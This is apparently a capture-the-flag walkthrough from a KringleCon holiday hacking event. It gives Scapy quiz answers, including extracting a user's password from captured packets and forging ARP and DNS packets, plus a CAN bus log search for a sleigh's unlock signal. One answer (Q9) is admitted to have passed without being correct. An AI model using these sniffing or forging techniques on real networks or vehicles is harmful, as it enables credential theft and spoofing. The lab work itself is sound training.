
Solution
Q1
Q1 : Welcome to the "Present Packet Prepper" interface! The North Pole could use your help preparing present packets for shipment. Start by running the task.submit() function passing in a string argument of 'start'. Type task.help() for help on this question. => task.submit("start")
Q2
Q2 : Submit the class object of the scapy module that sends packets at layer 3 of the OSI model. => task.submit(send)
Q3
Q3 : Submit the class object of the scapy module that sniffs network packets and returns those packets in a list. => task.submit(sniff)
Q4
Q4 : Submit the NUMBER only from the choices below that would successfully send a TCP packet and then return the first sniffed response packet to be stored in a variable named "pkt": 1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20)) 2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20)) 3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20)) => task.submit(1)
Q5
Q5 : Submit the class object of the scapy module that can read pcap or pcapng files and return a list of packets. => task.submit(rdpcap)
Q6
Q6 : The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choices below that correctly prints a summary of UDP_PACKETS: 1. UDP_PACKETS.print() 2. UDP_PACKETS.show() 3. UDP_PACKETS.list() => task.submit(2)
Q7
Q7 : Submit only the first packet found in UDP_PACKETS. => task.submit(UDP_PACKETS[0])
Q8
Q8 : Submit only the entire TCP layer of the second packet in TCP_PACKETS. => task.submit(TCP_PACKETS[IP][1][TCP])
Q9
Q9 : Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then submit this modified packet => task.submit(UDP_PACKETS[0]) worked but shouldn't have ^^
Q10
Q10 : Submit the password "task.submit('elf_password')" of the user alabaster as found in the packet list TCP_PACKETS. => TCP_PACKETS[6][Raw].load => task.submit('echo')
Q11
Q11 : The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-reply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list. => task.submit(ICMP_PACKETS[1][ICMP].chksum)
Q12
Q12 : Submit the number of the choice below that would correctly create a ICMP echo request packet with a destination IP of 127.0.0.1 stored in the variable named "pkt" 1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request") 2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply") 3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request") => task.submit(3)
Q13
Q13 : Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. (all other packet attributes can be unspecified) => task.submit(IP(dst='127.127.127.127')/UDP(dport=5000))
Q14
Q14 : Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS query with a qname of "elveslove.santa". (all other packet attributes can be unspecified) => task.submit(IP(dst='127.2.3.4')/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa")))
Q15
Q15 : The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection. => ARP_PACKETS[1][ARP].op = 2 => ARP_PACKETS[1][ARP].hwdst = '00:16:ce:6e:8b:24' => ARP_PACKETS[1][ARP].hwsrc = '00:13:46:0b:22:ba' => task.submit(ARP_PACKETS)

CAN-Bus Investigation
Welcome to the CAN bus terminal challenge!
In your home folder, there's a CAN bus capture from Santa's sleigh. Some of the data has been cleaned up, so don't worry - it isn't too noisy. What you will see is a record of the engine idling up and down. Also in the data are a LOCK signal, an UNLOCK signal, and one more LOCK. Can you find the UNLOCK? We'd like to encode another key mechanism.
Find the decimal portion of the timestamp of the UNLOCK code in candump.log and submit it to ./runtoanswer! (e.g., if the timestamp is 123456.112233, please submit 112233)
Solution
The candump.log has many events but there are only three different ID in it.
elf@e9d6693bd207:~$ awk '{print $NF}' candump.log |cut -d\# -f1 |sort |uniq -c
35 188
3 19B
1331 244
Also those with id 19B are longer than the rest, so simple grep using a regular expression to filter the events with at least 11 characters will yield the LOCK and UNLOCK events that can also be confirmed in the Santa Sleigh.
elf@e9d6693bd207:~$ egrep '#.{11}' candump.log
(1608926664.626448) vcan0 19B#000000000000
(1608926671.122520) vcan0 19B#00000F000000
(1608926674.092148) vcan0 19B#000000000000
As per the instructions there are one LOCK, followed by the UNLOCK and another LOCK after that, so this make easy to identify that 122520 is the answer.
elf@e9d6693bd207:~$ ./runtoanswer
There are two LOCK codes and one UNLOCK code in the log. What is the decimal portion of the UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 122520
Your answer: 122520
Checking....
Your answer is correct!
Narrative
The narrative is revealed gradually with every objective that is solved.
Full narrative:
KringleCon back at the castle, set the stage...
But it's under construction like my GeoCities page.
Feel I need a passport exploring on this platform -
Got half floors with back doors provided that you hack more!
Heading toward the light, unexpected what you see next:
An alternate reality, the vision that it reflects.
Mental buffer's overflowing like a fast food drive-thru trash can.
Who and why did someone else impersonate the big man?
You're grepping through your brain for the portrait's "JFS"
"Jack Frost: Santa," he's the villain who had triggered all this mess!
Then it hits you like a chimney when you hear what he ain't saying:
Pushing hard through land disputes, tryin' to stop all Santa's sleighing.
All the rotting, plotting, low conniving streaming from that skull.
Holiday Hackers, they're no slackers, returned Jack a big, old null!
Credits
Once all objectrives are solved, heading back to the balcony in santa's office reveals the final credits and a link to buy the official KringleCon swag.